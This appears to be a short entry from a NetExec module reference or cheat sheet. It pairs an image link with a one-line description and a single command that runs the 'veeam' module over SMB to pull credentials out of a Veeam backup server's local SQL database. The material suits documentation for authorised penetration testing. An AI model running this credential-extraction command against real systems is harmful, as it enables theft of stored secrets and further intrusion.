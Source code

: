 Extracts credentials from local Veeam SQL Database
```
netexec smb target -u username -p password -M veeam
```